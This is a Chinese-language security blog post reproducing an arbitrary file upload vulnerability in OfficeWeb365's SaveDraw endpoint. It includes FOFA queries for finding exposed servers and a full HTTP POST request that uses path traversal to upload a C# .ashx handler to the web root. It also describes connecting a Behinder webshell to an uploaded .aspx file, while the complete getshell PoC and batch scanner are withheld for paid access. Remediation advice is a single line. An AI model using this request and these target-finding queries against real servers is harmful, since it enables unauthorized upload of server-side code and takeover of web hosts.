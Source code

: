 #  【漏洞复现】OfficeWeb365 SaveDraw 任意文件上传getshell漏洞   
原创 清风  白帽攻防   2024-12-02 01:10  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
OfficeWeb365 是一款专业的云服务平台，专注于提供 Office 文档和 PDF 文档的在线预览功能，支  
持 Microsoft Word、Excel、PowerPoint，WPS 系列（文字、表格、演示）以及 Adobe PDF 的在线预览。该服务无需安装 ActiveX 控件或客户端部署，即可兼容所有浏览器和移动设备，为用户提供便捷高效的办公文档在线预览体验。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eGDSkIOTSSc0q9ZO3B1EibmlphuJkqLLgiaUgic4p6rwEKyKxotkvta8Qmbiag4bia2yUnw5VMPvUhkOA/640?wx_fmt=png&from=appmsg "")  
漏洞描述  
  
Office  
Web365 的 SaveDraw 接口 存在任意文件上传漏洞，攻击者可利用该漏洞上传任意文件到服务器，从而获取服务器权限。通过此漏洞，攻击者可以直接上传恶意的 webshell 文件，对  
服务器进行控制，进一步获取对整个 Web 服务器的完全掌控。  
fofa语法```
body="请输入furl参数"
header="OfficeWeb365"
banner="OfficeWeb365"
```  
漏洞复现  
发送数据包，计算7* 8的值，计算结果写入文件drawPW1.ashx中  
```
POST /PW/SaveDraw?path=../../Content/img&idx=10.ashx HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 480

data:image/png;base64,{{filehash}}<%@ Language="C#" Class="Handler1" %>public class Handler1:System.Web.IHttpHandler
{
public void ProcessRequest(System.Web.HttpContext context)
{
System.Web.HttpResponse response = context.Response;
response.Write(7 * 8);

string filePath = context.Server.MapPath("/") + context.Request.Path;
if (System.IO.File.Exists(filePath))
{
    System.IO.File.Delete(filePath);
}
}
public bool IsReusable
{
get { return false; }
}
}///---
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eGDSkIOTSSc0q9ZO3B1Eibms7WGjZiaUYjicwocqbdF7gjK6R3DTuPCOMpzxrI4RC0o38FbETXX02hw/640?wx_fmt=png&from=appmsg "")  
  
访问http://ip/Content/img/UserDraw/drawPW1.ashx，查看命令执行结果，成功写入7*8的值56  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eGDSkIOTSSc0q9ZO3B1EibmPticU8n40LukicoxBz6XRkBWuEFrbWWtiaEVXVIebQTSicfJ3YUxibd7Xsw/640?wx_fmt=png&from=appmsg "")  
  
  
上传shell文件，然后冰蝎连接http://ip/Content/img/UserDraw/drawPW11.aspx  
```
getshell poc请在公众号知识星球获取
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eGDSkIOTSSc0q9ZO3B1EibmIn7U1elYlIS4lUVb8Tpt1611gop8DQf961NbCvbibI7LibuibLB8x2buw/640?wx_fmt=png&from=appmsg "")  
  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0eGDSkIOTSSc0q9ZO3B1Eibmvl5fIvibtkHZP9znHeMjSGfeZ6ROSRxRYFheJ3jWvJfrjUQ6JtKEibibQ/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
  
  
1、打补丁  
  
  
  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
